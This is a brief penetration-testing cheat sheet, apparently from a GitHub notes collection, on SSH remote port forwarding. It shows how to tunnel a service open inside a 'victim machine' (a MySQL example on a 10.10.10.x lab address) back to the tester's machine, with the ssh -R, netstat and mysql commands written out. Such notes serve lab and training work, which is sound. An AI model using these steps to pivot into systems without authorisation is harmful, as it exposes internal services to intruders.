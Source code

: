 # Port Forwarding - SSH

To forward a port open internally in the victim machine to our local machine.

## **Usage**

```bash
ssh -R <local-port>:127.0.0.1:<service-port> <username>@<local-machine>
```

## **Find the open ports**

```bash
netstat -nl
```

## **Example MySQL**

```bash
ssh -R 4444:127.0.0.1:3306 root@10.10.10.x
```

## **In the local machine access the port**

```bash
mysql -u root -h 127.0.0.1 -P 4444
```